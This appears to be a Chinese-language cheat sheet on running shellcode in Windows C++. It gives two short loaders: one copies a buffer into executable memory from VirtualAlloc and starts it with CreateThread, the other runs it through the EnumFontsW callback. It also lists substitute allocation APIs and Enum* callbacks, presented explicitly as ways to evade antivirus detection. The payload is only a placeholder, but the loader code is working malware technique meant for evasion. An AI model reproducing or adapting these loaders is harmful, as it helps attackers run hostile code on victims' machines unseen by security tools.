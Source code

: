 ## 创建线程执行

```cpp
#include <Windows.h>
int main()
{
    int shellcode_size = 0; // shellcode⻓度，可有可无
    DWORD dwThreadId; // 线程ID
    HANDLE hThread; // 线程句柄
    unsigned char buf[] = "shellcode";
    char* shellcode = (char*)VirtualAlloc(NULL, sizeof(buf), MEM_COMMIT, PAGE_EXECUTE_READWRITE);
    CopyMemory(shellcode, buf, sizeof(buf));
    hThread = CreateThread(NULL, NULL, (LPTHREAD_START_ROUTINE)shellcode, NULL, NULL, &dwThreadId);
    WaitForSingleObject(hThread, INFINITE);
    return 0;
}
```

可以通过替换api来进行免杀，比如VirtualAlloc
```
GlobalAlloc
CoTaskMemAlloc
HeapAlloc
RtlCreateHeap
AllocADsMem
ReallocADsMem
```

## 回调函数
CreateThread很敏感，可以用回调函数执行，EnumFontsW系用的比较多
```cpp
#include <Windows.h>
unsigned char shellcode[] = "shellcode";

int main() {
    LPVOID address = VirtualAlloc(NULL, sizeof(shellcode), MEM_RESERVE | MEM_COMMIT, PAGE_EXECUTE_READWRITE);
    memcpy(address, shellcode, sizeof(shellcode));
    HDC dc = GetDC(NULL);
    EnumFontsW(dc, NULL, (FONTENUMPROCW)address, NULL);
    return 0;
}
```

下面一些列都可以
```
EnumTimeFormatsA  //可直接替换EnumFontsW
EnumWindows
EnumDesktopWindows
EnumDateFormatsA
EnumChildWindows
EnumThreadWindows
EnumSystemLocalesA
EnumSystemGeoID
EnumSystemLanguageGroupsA
EnumUILanguagesA
EnumSystemCodePagesA
EnumDesktopsW
EnumSystemCodePagesW
```
